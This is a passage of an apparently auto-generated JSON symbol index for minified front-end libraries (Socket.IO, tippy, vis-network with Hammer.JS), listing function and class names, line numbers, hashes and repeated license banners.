"e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "c"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}, {"doc": "! Socket.IO v4.0.0 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}]}, {"doc": "!", "id": "static/js/socket.io-4.3.2.min.js", "kind": "module", "label": "socket.io-4.3.2.min.js", "language": "js", "sha256": "27131d98772f79dd", "symbol_count": 15, "symbols": [{"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "o"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "e"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "o"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "s"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "f"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "wt"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "h"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "Et"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "function", "line": 6, "name": "Nt"}, {"doc": "! Socket.IO v4.3.2 (c) 2014-2021 Guillermo Rauch Released under the MIT License.", "kind": "class", "line": 6, "name": "as"}]}, {"id": "static/js/tippy-6.js", "kind": "module", "label": "tippy-6.js", "language": "js", "sha256": "98a1779e4ded3d77", "symbol_count": 3, "symbols": [{"kind": "function", "line": 1, "name": "e"}, {"kind": "function", "line": 1, "name": "r"}, {"kind": "function", "line": 1, "name": "u"}]}, {"id": "static/js/vis-network-9.1.2.min.js", "kind": "module", "label": "vis-network-9.1.2.min.js", "language": "js", "sha256": "6490d9f5c2359320", "symbol_count": 135, "symbols": [{"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Pc"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "or"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "in"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "does"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "rO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "g"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "g"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "has"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "does"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "C"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "s"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "e"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "e"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "f"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "s"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "d"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "h"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "i"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "f"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "v"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "I"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "v"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "g"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "t"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "zo"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "function", "line": 26, "name": "nc"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "su"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "ku"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Nu"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Wu"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Xu"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "gp"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "np"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "vp"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "g"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "g"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "I"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "o"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "o"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "A"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "ov"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "mw"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "kw"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Ew"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Ow"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "qw"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "e"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "C"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "ik"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "nk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "sk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "dk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "lk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "fk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "yk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "bk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "kk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Ek"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Tk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Nk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Pk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Bk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Zk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Fk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Lk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Vk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Qk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Hk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "dx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Tx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Px"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Bx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Zx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", 